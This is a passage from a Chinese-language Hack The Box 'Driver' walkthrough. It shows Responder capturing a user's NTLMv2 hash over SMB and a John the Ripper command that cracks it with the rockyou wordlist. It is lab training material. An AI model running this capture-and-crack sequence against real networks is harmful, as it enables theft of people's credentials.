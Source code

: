 ```
    Responder Machine Name     [WIN-QO2U5X54CZL]
    Responder Domain Name      [1P4E.LOCAL]
    Responder DCE-RPC Port     [45284]

[+] Listening for events...
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:e4<HIDDEN>00
<SNIP>
[+] Exiting...
```

# 哈希破解

点击提交按钮上传我们的有效负载后，我们看到 Responder 已经捕获了用户散列。我们可以尝试破解它:

![](img/956de34d6c97cf9a4d0e944081b4f6ff.png)

识别哈希类型

将 John 与 rockyou 配合使用，只需几秒钟:

```
┌──(root💀kali)-[~/htb/driver]
└─# john hash.txt --format=netntlmv2 --wordlist=rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>          (tony)
1g 0:00:00:00 DONE (2021-10-27 17:26) 50.00g/s 1638Kp/s 1638Kc/s 1638KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

